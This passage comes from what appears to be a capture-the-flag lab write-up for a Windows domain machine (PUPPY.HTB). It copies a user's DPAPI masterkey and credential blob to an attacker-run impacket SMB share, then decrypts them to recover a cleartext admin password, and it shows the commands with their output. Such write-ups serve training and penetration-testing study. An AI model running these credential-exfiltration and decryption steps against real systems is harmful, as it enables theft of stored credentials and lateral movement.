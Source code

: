 - LocalAccountTokenFilterPolicy indicates only RID-500 local admin usable for lateral movement.
    
- These findings indicate multiple credential extraction and abuse vectors.
    

---

## DPAPI / Masterkey Extraction and Decryption

After local recon we discover:

```powershell
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9

C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-...-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```

- User DPAPI masterkey and credential blob located in user profile.

#### Start attacker smbserver
```bash
impacket-smbserver share ./share -smb2support
```

#### Copy files from target:
```powershell
copy "<masterkey path>" \\10.10.14.137\share\masterkey_blob
copy "<credential path>" \\10.10.14.137\share\credential_blob
```

### Decrypt the key

```bash
impacket-dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```

```text
[MASTERKEYFILE]
Version : 2 (2)
Guid : 556a2412-1275-4ccf-b721-e6a0b4f90407
...
Decrypted key with User Key (MD4 protected)  
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

- Masterkey successfully decrypted using steph.cooper password.

```bash
impacket-dpapi credential -file credential_blob -key 0xd9a57...9e9c84
```

```text
[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Type : CRED_TYPE_DOMAIN_PASSWORD
Target : Domain:target=PUPPY.HTB
Username : steph.cooper_adm
Unknown : FivethChipOnItsWay2025!
```

